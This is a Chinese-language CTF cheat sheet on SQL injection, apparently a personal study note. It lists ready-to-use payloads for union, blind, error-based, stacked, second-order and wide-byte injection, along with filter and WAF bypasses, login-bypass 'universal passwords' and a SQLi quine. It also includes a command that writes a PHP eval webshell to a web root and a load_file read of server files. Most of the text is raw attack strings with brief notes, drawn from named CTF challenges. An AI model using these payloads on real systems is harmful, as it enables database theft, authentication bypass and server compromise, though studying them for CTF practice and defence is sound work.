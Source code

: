 ## 常见

| 考点                            |                                                                            |
| ------------------------------- | -------------------------------------------------------------------------- |
| 0.测试                          | 1' order by 1 -- [123456] 测试                                             |
| 1.联合查询                      | union select group_concat(username,0x7e,password),2,3 from...，order by... |
| [2.布尔盲注](#2布尔盲注)        | if(ascii(substr(database(),1,1))>100,1,0)                                  |
| [4.报错注入](#4报错注入)        |                                                                            |
| [5.堆叠注入](#5堆叠注入)        | 使用 prepare 绕过                                                          |
| 二次注入                        |
| [过滤了单引号](#过滤了单引号)   |
| [bypass](bypass_.md#sql-bypass) |

注入格式

| Column                                        | 测试 1                                                                                                                  | 测试 2 |
| --------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------- | ------ |
| ?id=1''                                       | ?id='1'                                                                                                                 |        |
| $id                                           | 1''                                                                                                                     | '1'    |
| $id 结果                                      | 正常                                                                                                                    | 正常   |
| '$id'                                         | '1'''                                                                                                                   | ''1''  |
| '$id'结果                                     | 正常                                                                                                                    | 错误   |
| `select * from user where username = '$name'` | 密码是 md5 方式, `-1' union select 1,'admin','202cb962ac59075b964b07152d234b70'#`                                       |
| \`uid\` in('1'); <br> \`uid\` in($id);        | 后面会补括号 <br> `1) or updatexml(1,concat(0x7e,version(),0x7e),1`<br>`1 or updatexml(1,concat(0x7e,version(),0x7e),1` |

### post/mysql

- 写入文件 `select "<?php @eval($_POST['cmd']);?>" into outfile "C://phpstudy/www/info.php"`
- 读文件 `select load_file('C:/users/desktop.ini');`

### 2.布尔盲注

```sql
if(ascii(substr(database(),1,1))>100,1,0)
布尔盲注不需要闭合
SELECT password from user WHERE id = ${id}
${id} = if(ascii(substr((select flag from flag),{},1))>{},1,2)
```

### 4.报错注入

```sql
(updatexml(1,concat(0x7e,(select user()),0x7e),1)); 大整数报错等
'or updatexml(1,concat(0x7e,user()),1)#
'or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),1),1)#
'or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag_head')),1),1)#
'or updatexml(1,concat(0x7e,(select group_concat(flag_h1) from flag_head)),1),1)#
--- 见 web_sql_00normal_04_error_inject.py
(1). 通过floor报错 能显示64字符, test1名称里会多出1，去掉改为test
(2). 通过updatexml报错 32字符 只有在payload返回的不是xml格式才会生效
(3). 通过ExtractValue报错
?username=admin'or(extractvalue(1,concat(0x7e,user(),0x7e)))%23&password=21
```

### 5.堆叠注入

```sql
select * from users where id= 1;create table test like users;
-1';set @t=concat('sel','ect flag from `1919810931114514`');prepare te from @t;execute te;#
```

### 二次注入

`[RCTF2015]EasySQL`
注册以下用户

```sh
admin"
admin'
admin')
admin")
```

admin" 在修改密码时报错，说明"闭合 二次注入，猜测 sql

```sql
update 表 set password='xxx' where username="xx" and pwd='xx'
```

## 常见的 SQL 注入考点 CTF-123458

```bash
3.时间盲注: if(ascii(substr(database(),1,1))>100,sleep(5),1)

6.二次注入:通过在一处输入点构造sql语句，在第二处触发
        -- 1.登陆:邮箱。密码 2.登陆后:限制用户名,显示用户名 -- 可能二次注入 -- 网鼎杯2018unfinish
7.宽字节注入:通过数据库编码错误来绕过字符转义
        sql = 'select *from user where id=\''.$id.'\'';
        GBK两个字符为一个汉字, 输入宽字符%df使反斜杠和这个%df形成一个汉字
        GET方式 id=1%df' union select 1,database(),3%23
        POST方式-没有url解码 username=1汉') or 1=1#
                -配合盲注完成
9.sql注入读写文件:通过sql注入写入webshell,或直接读取服务器文件
10.sql注入提权:通过sql注 入获取服务器权限
- 读取数据 见0x10
- 绕过字符  /**/替换空格, 用<a>无意义填充过waf , 看bypass
        ()替换空格or(1)=(1) , or('1')='1'
load_file
head 注入 useragent进行报错注入
MySQL查询的按位比较 -- CTFshow web1, [GYCTF2020]Ezsqli

SQLi-Quine  $row['password'] === $password, 输入的password值等于查询出来的值
        http://y24.top/go?_=06d458b6b3aHR0cHM6Ly93d3cuc2h5c2VjdXJpdHkuY29tL3Bvc3QvMjAxNDA3MDUtU1FMaS1RdWluZQ%3D%3D
        https://www.shysecurity.com/post/20140705-SQLi-Quine
        'UNION/**/SELECT/**/REPLACE(REPLACE('"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#',CHAR(34),CHAR(39)),CHAR(37),'"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#')/**/AS/**/a#
```

## Other

```sh
# https://www.bilibili.com/video/BV1ZT4y1o7H8  --1:10:31
"SELECT * FROM user WHERE username ='" .$username. "' AND password = '" .$password. "'"
username=admin\&password=||1=1#
# 关于 "||"
0||1=1, 0||0=0
# rlike(或者reexp)
模糊匹配,可以与正则匹配模式一起使用.如果未指定^xxxx$只要模式在指定字符串中就可以被匹配到
注意: SQL模糊匹配是不区分大小写的, 需要另外写爆破大小写脚本。
name= 'safasfascyxqagasgasfasfas'
name rlike cyxq
username=admin\&password=||(password)rlike(0x{})#
```

1.  在用户名或密码处加引号测试

        http://[极客大挑战 2019]EasySQL/check.php?username=admin'&password=11
        报错 猜测  select * from users where name='$username' and passwd='$password';

构造 username=admin or 1=1 和 passwd=admin or 1=1 即可

```sql
payload：?username=admin' or '1'='1&password=123' or '1'='1
替换后:   name='admin' or '1'='1' and passwd='123' or '1'='1';
```

### 过滤了单引号

```sql
select * from users where  username= '$_POST["username"]' and password = '$_POST["username"]';
```

- username = <span class="red">1\\</span>
- password = <span class="red"> or 1#</span>

```sql
select * from users where  username= '1\' and password =' or 1#
```

### 万能密码

有时不能为空（过滤了空字符）

```sql
1' or 1=1 #
uname=1' or 1=1 #&passwd=any
uname=1' or '1=1'#&passwd=any
select * from user where uname = '222' and upass = '222'
select * from user where uname = '222' and upass = '222' or 1=1
select * from user where uname = '222' and upass = '222' or '1=1#'
select * from user where uname = '222' and upass = '222' or '1'='1'
```

fuzz 后能用

```python
/*!union*/ 绕过union过滤
"0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
# '0^(ascii(substr((select(flag)from(flag)),1,1))>94)'
```

<style>
 .red{color:red;}
</style>

